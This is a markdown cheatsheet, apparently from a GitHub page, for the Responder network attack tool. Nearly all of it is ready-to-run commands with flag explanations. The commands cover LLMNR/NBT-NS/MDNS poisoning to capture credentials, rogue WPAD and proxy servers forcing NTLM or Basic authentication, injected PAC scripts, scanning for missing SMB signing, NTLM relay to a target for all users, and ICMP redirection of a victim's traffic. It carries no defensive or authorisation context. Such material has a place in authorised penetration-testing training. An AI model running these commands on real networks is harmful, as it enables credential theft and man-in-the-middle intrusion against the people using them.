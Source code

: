 # Responder Tool Cheatsheet

## 1. Install Responder (Linux)
Clone and set up Responder on Linux.
```bash
sudo apt update && apt install -y python git
git clone https://github.com/lgandx/Responder
cd Responder
```

## 2. Check Responder Options
Display available options for Responder.
```bash
sudo python3 Responder.py -h
```
- `-h`: Shows help message with all options.

## 3. Analyze Mode (Responder)
Run Responder in analyze mode to inspect LLMNR, NBT-NS, and MDNS requests without responding.
```bash
sudo python3 Responder.py -I eth0 -A
```
- `-I eth0`: Specify network interface (e.g., eth0).
- `-A`: Analyze mode, no poisoning.

## 4. Basic Poisoning (Responder)
Start Responder to poison LLMNR, NBT-NS, and MDNS, capturing credentials.
```bash
sudo python3 Responder.py -I eth0 -w -r -d
```
- `-I eth0`: Network interface to listen on.
- `-w`: Enable WPAD rogue proxy server.
- `-r`: Respond to NBT-NS Workstation Service requests.
- `-d`: Enable DHCP broadcast answers with WPAD.

## 5. Verbose Mode (Responder)
Run Responder with verbose output for detailed logging.
```bash
sudo python3 Responder.py -I eth0 -w -r -d -v
```
- `-v`: Verbose mode for more detailed output.

## 6. Force WPAD Authentication (Responder)
Force NTLM/Basic auth on WPAD file retrieval.
```bash
sudo python3 Responder.py -I eth0 -w -F
```
- `-F`: Force NTLM or Basic authentication for WPAD.

## 7. Use RunFinger to Scan for SMB Signing
Check for machines without SMB signing using RunFinger.
```bash
sudo python3 tools/RunFinger.py -i 10.0.2.0/24
```
- `-i`: Target IP or range (e.g., 10.0.2.0/24).

## 8. Relay NTLM with MultiRelay
Relay NTLM authentication to a target, targeting all users.
```bash
sudo python3 tools/MultiRelay.py -t 10.0.0.60 -u ALL
```
- `-t`: Target IP to relay authentication to.
- `-u ALL`: Target all users for relaying.

## 9. Disable SMB and HTTP Servers
Edit Responder.conf to avoid conflicts with MultiRelay.
```bash
nano Responder.conf
```
- Set `SMB = Off` and `HTTP = Off` to disable servers.

## 10. Inject Custom WPAD Script
Configure a custom PAC script for WPAD responses.
```bash
nano Responder.conf
```
- Edit `WPAD_Script` section to inject custom HTML or PAC script.

## 11. Run Responder with Proxy Auth
Force NTLM/Basic auth for proxy requests.
```bash
sudo python3 Responder.py -I eth0 -P
```
- `-P`: Force NTLM or Basic auth for proxy, no WPAD needed.

## 12. Redirect Traffic with ICMP Redirect
Redirect traffic to your machine using ICMP.
```bash
sudo responder-Icmp-Redirect -I eth0 -i 10.20.30.40 -g 10.20.30.254 -t 10.20.30.48 -r 10.20.40.1
```
- `-I eth0`: Network interface.
- `-i`: Your IP to redirect traffic to.
- `-g`: Original gateway IP.
- `-t`: Target IP.
- `-r`: Destination IP (e.g., DNS server).

## Tips
- Logs are saved in `Responder/logs/` for captured hashes and credentials.
- Use `ifconfig` to identify your network interface.
- Disable SMB/HTTP in Responder.conf before using MultiRelay to avoid port conflicts.
- Run as root for full functionality.